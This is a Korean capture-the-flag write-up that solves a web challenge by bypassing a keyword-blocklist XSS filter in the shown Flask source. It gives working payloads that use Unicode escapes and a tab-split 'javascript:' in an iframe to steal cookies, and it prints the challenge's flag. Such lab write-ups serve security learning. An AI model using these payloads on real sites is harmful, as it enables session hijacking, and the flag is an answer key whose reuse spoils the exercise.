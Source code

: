 Exercise: XSS Filtering Bypass의 패치된 문제입니다.  
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            return "filtered!!!"

    advanced_filter = ["window", "self", "this", "document", "location", "(", ")", "&#"]
    for f in advanced_filter:
        if f in text.lower():
            return "filtered!!!"

    return text

@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```
## 엔드포인트 분석  
1. '/'  
-> 메인페이지 html 파일 render
2. '/vuln'  
-> param에서 특정 값을 얻어서 **xss_filter** 의 결과값을 return 한다.  
3. '/flag'  
-> param에서 특정 값을 얻어서 **check_xss** 에 넣어서 **xss를 필터링** 한다.
4. '/memo'  
-> memo에서 특정 값을 작성한다.  
## 주요 함수 분석  
1. xss_filter  
-> **script, on, javascript:, window, self, this, document, location, (, ), &#** 를 대소문자 구분하지 않고 필터링한다.
2. check_xss  
-> 입력받은 param을 이용해 URL을 만들어서 접근함  
## 문제 모습  
이전 문제인 **XSS Filtering Bypass** 와 동일함  
<img src="1.jpg">  

## 문제 해결  
이전 문제와 차이점이 있다.  
1. **window, self, this, document, location, (, ), &#** 를 추가적으로 필터링한다.  
2. 필터링 방식이 replace 가 아니라, **filtering을 return** 한다.   

즉, 이전 문제에서 사용했던 방식인 **oonn** 이런 방식을 사용할 수 없다.  
그래서 생각했던 방식이 있다.  
바로 **유니코드와 iframe** 을 사용하는 것이다.  
```html
<img src=test.jpg onerror="location.href='/memo?memo='+document.cookie">
```
이전 문제에서 사용한 예시 코드이다.  
여기서 **location, document** 는 유니코드로 우회할 수 있다.  
예를 들면, **location.href='/memo?memo='+document.cookie** 를 **locati\u006f\u006e.href='/memo?memo='+d\u006fcument.cookie** 로 바꿀 수 있다.  
그렇다면, **on** 은 어떻게 할 수 있을까?  
참고로 on은 바꿀 수 없다.  
-> **&#** 를 필터링해서, HTML Entity Encoding를 사용할 수 없기 때문이다.  
여기에서 사용할 수 있는 태그는 바로 **iframe** 이다.  
작동시킬 새로운 코드를 작성하면 다음과 같다.  
```html
<iframe src="javascript:location.href='/memo?memo='+document.cookie">
```
여기서 중요한 점은 **javascript:** 를 우회해야한다.  
이 부분을 잘 모르겠어서 구글링을 한 결과, **탭(tab)** 으로 우회할 수 있다고 한다.  
그래서 메모장에 **javascript:** 중간에 탭으로 나눈 것과 location.href 를 우회한 것을 합쳐서 다음과 같은 결과가 나왔다.  
```html
<iframe src="javasc	ript:locati\u006f\u006e.href='/memo?memo='+d\u006fcument.cookie">
```
<img src="2.jpg">  
<img src="3.jpg">  

따라서 정답은 **DH{e8140ed5b0770088dd2012e1c9dfd4b4}** 이다.